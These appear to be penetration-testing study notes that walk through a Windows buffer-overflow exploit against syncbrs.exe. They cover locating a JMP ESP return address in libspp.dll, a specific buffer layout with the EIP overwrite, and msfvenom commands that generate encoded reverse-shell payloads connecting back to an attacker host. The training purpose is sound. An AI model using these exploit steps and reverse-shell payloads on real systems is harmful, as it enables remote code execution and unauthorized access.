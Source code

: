 - Can see that the app (**syncbrs.exe**) has [memory protections](PWK--Strat--10_Buffer_Overflows--11_Windows_BO--Control_Protections.html) disabled. So, it'll always reliably load at the same address. (base address of 0x004xxxxx contains nulls, so isn't suitable)  
	- If the app is compiled w/ DEP support, the **JMP ESP** would have to be located in the **.text** code segment of the module, as that's the only segment w/ both **r** & **x** perms  
- Next DLL w/ all flags set to False - **libspp.dll** (address from 0x10 - 0x10223000) works.  
- Find opcode for **JMP ESP** use [msf-nasm_shell](PWK--Tools--msf--msf-nasm_shell.html):
```bash
msf-nasm_shell  
nasm > jmp esp  
00000000  FFE5       jmp esp
```

- Look for the #JMPESP within the dll in Immunity Debugger:
```bash
!mona find -s "\xff\xe4" -m "libspp.dll"
```

- To view address in Disassembler window while app is paused - Click Goto
![[GoToAddrDiss.png]]
 
Address In Dissasembler button and enter address found from above step.  
- If we redirect EIP to this address at the time of the crash, the **JMP ESP** instruction will be executed which will move the execution flow into our shellcode (the buffer contined in **ESP**)  
- Rewrite exploit to point **EIP** to return address. ******NOTE: Use python2 as python3 will throw in an extra C2 byte******  
```bash
filler = "A" * 780  
eip = "\x83\x0c\x09\x10"  
offset = "C" * 4  
buffer = "D" * (1500 -len(filler) - len(eip) - len(offset))
```

\*\*NOTE:\*\* As it's little endian, you MUST enter in address in reverse byte order <------ acutal address found: **0x10090c83**  
  
##### shellcode gen
7. Generate shellcode
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```
	**-p** - Specify payload;
	**LHOST** - Local Host;
	**LPORT** - Local Port;
	**-f** - Specify format;
	**-e** - Specify encoding;
	**-b** Specify bad characters
	**shikata_ga_nai** - Adv polymorphic encoder

(for simple exe rev shell on Win:)
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o /tmp/<evil.exe>
```
  